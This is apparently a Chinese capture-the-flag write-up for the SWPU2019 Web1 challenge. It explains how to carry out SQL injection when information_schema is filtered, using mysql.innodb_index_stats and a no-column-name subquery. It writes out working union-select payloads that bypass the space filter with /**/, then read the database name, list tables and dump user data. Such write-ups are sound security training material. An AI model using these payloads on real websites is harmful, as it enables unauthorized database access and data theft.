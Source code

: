 # [SWPU2019]Web1 sql注入过滤了information 无列名查询

记录一道过滤 or 导致无法使用information_schema.tables的题目

## 前置知识

### 过滤information

在sql的时候其实很想知道 如果information_schmea.tables被过滤 那我是不是就完全sql不来了

这里就遇到了

主要是mysql中还存在着其他的表可以查询

例如mysql数据库中的 innodb_index_stats



<img src="https://i-blog.csdnimg.cn/blog_migrate/ae75e573b7a7f488f891bc30ff3864d0.png" alt="" style="max-height:282px; box-sizing:content-box;" />


还有sys数据库中的schema_auto_increment_columns



<img src="https://i-blog.csdnimg.cn/blog_migrate/6f84aee4465045d24eb822392bae179a.png" alt="" style="max-height:177px; box-sizing:content-box;" />


但是这个题目不存在

所以我们还是使用mysql.innodb_index_stats

### 无列名查询

因为mysql.innodb_index_stats不存在列名 所以我们只能通过无列明查询

其实这个我们在sql注入已经会了 就是select 1,2,3,4

但是意义不一样

我们来看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/f4602be9b8160fca2d6dc59c7e5c8c50.png" alt="" style="max-height:235px; box-sizing:content-box;" />


之前判断字段是无法回显字符的

我们把它作为一个表来返回



<img src="https://i-blog.csdnimg.cn/blog_migrate/ed87ccfbce21fad0900b5d9e961ca417.png" alt="" style="max-height:238px; box-sizing:content-box;" />


这里通过联合查询 就可以将 数据返回

但是我们有的时候只需要其中一个 我们就可以将其作为一个表 然后去查询他

例如



<img src="https://i-blog.csdnimg.cn/blog_migrate/c48bf3495405dc4577cb0c46bdeb978e.png" alt="" style="max-height:212px; box-sizing:content-box;" />


这样我们就取得了 第二列的数据了

个人觉得还是很好理解的

## 做题

首先我们得到了这个网站



<img src="https://i-blog.csdnimg.cn/blog_migrate/80a40fd37aa15b5777eaaba104da9654.png" alt="" style="max-height:300px; box-sizing:content-box;" />


想去试试弱口令 无果

只能通过注册去注册一个了



<img src="https://i-blog.csdnimg.cn/blog_migrate/931b5b6c70c8b3d482c87c943a236957.png" alt="" style="max-height:341px; box-sizing:content-box;" />


只存在两个功能点 一个是发布公告

我们去看看有什么用处



<img src="https://i-blog.csdnimg.cn/blog_migrate/9de1f7cf41d881ca9fe5fc0c4ffa2283.png" alt="" style="max-height:106px; box-sizing:content-box;" />


发现发布后可以进行查看详情 查询

那我们是不是可以通过sql来(这里是看wp的 思维跳跃太大了没想到是sql注入)



<img src="https://i-blog.csdnimg.cn/blog_migrate/dbfad99f60464c67d66d9d7a1bce9d6b.png" alt="" style="max-height:229px; box-sizing:content-box;" />


### 发现过滤了 空格 我们直接/**/绕过



<img src="https://i-blog.csdnimg.cn/blog_migrate/10542acf8466a56d0002128586564754.png" alt="" style="max-height:156px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/d39341ffdc48439613919b18f9f0d543.png" alt="" style="max-height:124px; box-sizing:content-box;" />


确定了是sql注入 但是没有实现闭合 我们研究了一下 是最后还有个单引号 所以我们在最后加一个单引号让他为空字符



<img src="https://i-blog.csdnimg.cn/blog_migrate/5df12a5b6c691d06741c8276dfae188d.png" alt="" style="max-height:194px; box-sizing:content-box;" />


报错说字段错误 我们就开始尝试了

经过尝试

22个字段 真的多。。。。。

```csharp
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/cf0080b79d9d754da98328f7c8feb2f2.png" alt="" style="max-height:116px; box-sizing:content-box;" />


我们可以开始查询了

### 爆数据库

```csharp
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/92c93103e2e574e7d497ae760706744a.png" alt="" style="max-height:178px; box-sizing:content-box;" />


### 爆破表

```csharp
1'/**/union/**/select/**/1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_index_stats/**/where/**/database_name="web1"'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3aa9dd05acf0f25ac67bae8872258b19.png" alt="" style="max-height:109px; box-sizing:content-box;" />


### 爆破值 （无列名查询）

```csharp
1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/cd8c084b8bd0001a61955d514d8ec8e6.png" alt="" style="max-height:157px; box-sizing:content-box;" />


这样就爆破出了值了